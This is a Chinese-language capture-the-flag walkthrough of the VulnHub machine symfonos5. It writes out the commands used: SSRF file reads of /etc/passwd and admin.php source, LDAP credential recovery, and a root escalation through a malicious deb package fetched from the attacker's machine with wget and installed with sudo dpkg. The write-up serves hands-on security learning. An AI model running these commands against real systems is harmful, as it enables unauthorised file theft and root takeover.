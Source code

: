 # symfonos5-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/symfonos-5,415/

**Description**

Beginner real life based machine designed to teach people the importance of understanding from the interior.

Tested on VMware and Virtualbox

**知识点**
- ssrf
- ldap
- dpkg 提权

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos5/1.png)

排除法,去掉自己、宿主机、网关, `192.168.141.151` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.151
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos5/2.png)

SSH、web、ldap,ldap 一般比较少见,先从熟悉的 web 开始把

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos5/3.png)

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos5/4.png)

老样子,啥都没有,爆破目录,字典自 https://github.com/ffffffff0x/AboutSecurity/blob/master/Dic/Web/Directory/fast-scan.txt
```bash
./gobuster dir -u 192.168.141.151 -w fast-scan.txt
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos5/5.png)

访问下这个 admin.php 和 home.php

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos5/6.png)

home.php 会将我重定向到 admin.php,看看 html 源码

```
curl http://192.168.141.151/home.php
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos5/7.png)

这个熟悉的 127.0.0.1 看上去是 ssrf 啊,读文件试试

# 中期-漏洞利用

```
curl http://192.168.141.151/home.php\?url\=file:///etc/passwd
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos5/8.png)

尝试读 admin.php 的源码
```
curl http://192.168.141.151/home.php\?url\=file:///var/www/html/admin.php
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos5/9.png)

看上去是 LDAP 的凭证。

ldap管理工具有 ldapadmin，JXplorer 等,这里就用 ladpadmin 测试了

访问 https://sourceforge.net/projects/ldapadmin/ 下载安装包,我下的是windows版的,就不演示 linux 平台了

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos5/10.png)

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos5/11.png)

连接后可以看到有个 zeus 用户和其密码

SSH 连接上去,寻找提权的方法

---

# 后期-提权

```
sudo -l
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos5/12.png)

dpkg 以 root 权限运行,上 https://gtfobins.github.io/ 找下 dpkg 相关的内容

在 kali 上运行
```
gem install --no-document fpm
TF=$(mktemp -d)
echo 'exec /bin/sh' > $TF/x.sh
fpm -n x -s dir -t deb -a all --before-install $TF/x.sh $TF

python -m SimpleHTTPServer 8080
```

完成后靶机下载POC
```
wget 192.168.141.134:8080/x_1.0_all.deb
sudo dpkg -i x_1.0_all.deb
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos5/13.png)

提权成功,感谢靶机作者 Zayotic,和 mzfr 分享的 writeup

